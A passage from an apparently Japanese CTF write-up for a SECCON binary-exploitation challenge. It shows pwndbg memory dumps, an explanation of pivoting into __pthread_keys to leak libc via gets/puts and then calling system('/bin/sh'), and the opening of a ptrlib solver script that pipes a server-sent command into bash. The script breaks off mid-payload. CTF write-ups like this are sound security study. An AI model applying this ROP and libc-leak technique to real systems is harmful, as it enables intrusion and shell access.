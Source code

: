 ```
pwndbg> x/10gx 0x7ffff7fb0720
0x7ffff7fb0720 <_IO_stdfile_0_lock>:    0x0000000000000000      0x0000000000000000
0x7ffff7fb0730 <__pthread_force_elision>:       0x0000000000000000      0x0000000000000000
0x7ffff7fb0740 <__attr_list_lock>:      0x0000000000000000      0x0000000000000000
0x7ffff7fb0750 <init_sigcancel>:        0x0000000000000000      0x0000000000000000
0x7ffff7fb0760 <__nptl_threads_events>: 0x0000000000000000      0x0000000000000000
pwndbg> x/10gx 0x7ffff7fb0740
0x7ffff7fb0740 <__attr_list_lock>:      0x0000000000000000      0x0000000000000000
0x7ffff7fb0750 <init_sigcancel>:        0x0000000000000000      0x0000000000000000
0x7ffff7fb0760 <__nptl_threads_events>: 0x0000000000000000      0x0000000000000000
0x7ffff7fb0770: 0x0000000000000000      0x0000000000000000
0x7ffff7fb0780 <__pthread_keys>:        0x0000000000000000      0x0000000000000000
pwndbg> x/10gx 0x7ffff7fb0780
0x7ffff7fb0780 <__pthread_keys>:        0x0000000000000000      0x0000000000000000
0x7ffff7fb0790 <__pthread_keys+16>:     0x0000000000000000      0x0000000000000000
0x7ffff7fb07a0 <__pthread_keys+32>:     0x0000000000000000      0x0000000000000000
0x7ffff7fb07b0 <__pthread_keys+48>:     0x0000000000000000      0x0000000000000000
0x7ffff7fb07c0 <__pthread_keys+64>:     0x0000000000000000      0x0000000000000000
```

のように、lockとは関係ない場所にrdiが移動する(\_\_pthread_keys)。ここは書き込んでも大丈夫なので（大丈夫だったので）、この領域に移しgetsを実行し、更にputsを使えばリークができる。あとはもう一度書き込むときにlibcでsystem("/bin/sh")を呼べば良い。

exploitを書く際は、全体的にrbpの扱いをうまくやらないと、スタックの不足などで死ぬため、bssをうまく活用しなければならない。

solver
```python
#!/bin/python3

from ptrlib import *
import time
import code
import struct
import subprocess

elf = ELF("./chall_patched")
symbols = elf.symbols()

# sock = Process("./chall_patched")
sock = Socket("mrga.seccon.games", 7428)
sock._debug = True

sock.recvuntil(b"work:\n")
command = sock.recvline()

token = subprocess.run(["bash", "-c", command.decode()], capture_output=True).stdout.decode()
sock.send(token)

libc = ELF("./libc.so.6")

input("Attach gdb")

moved_stack = 0x404000 + 0x400
big_stack = 0x405000 - 0x80

# let's make rax to 0x401060(puts@plt)
# 0x401157: add eax, 0x00002ECB ; add  [rbp-0x3D], ebx ; nop ; ret ; (1 found)

# 0x401060 / 0x2ecb = 0x15e
# 0x401060 % 0x2ecb = 0x16d6

gets_rbp_0x10 = symbols[b'main'] + 17

payload = flat([
```